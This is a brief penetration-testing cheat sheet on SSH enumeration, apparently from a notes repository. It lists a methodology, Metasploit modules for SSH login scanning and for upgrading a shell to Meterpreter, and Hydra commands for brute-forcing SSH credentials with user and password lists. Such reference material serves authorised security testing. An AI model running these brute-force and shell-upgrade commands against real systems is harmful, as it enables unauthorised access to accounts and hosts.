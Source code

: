 # SSH Enumeration
## Methodology

```
1) Check version and vulnerability
2) Enum users
3) Get password from another port or brute force it
4) If you have key connect with key
```
 
 
> ###### Metasploit Modules
```
 use auxiliary/scanner/ssh/ssh_login
 use post/multi/manage/shell_to_meterpreter
```
> ###### Brute Force
```
##### Hydra SSH using list of users and passwords

hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`

##### Hydra SSH using a known password and a username list

hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh`

##### Hydra SSH Against Known username on port 22

hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt`
```
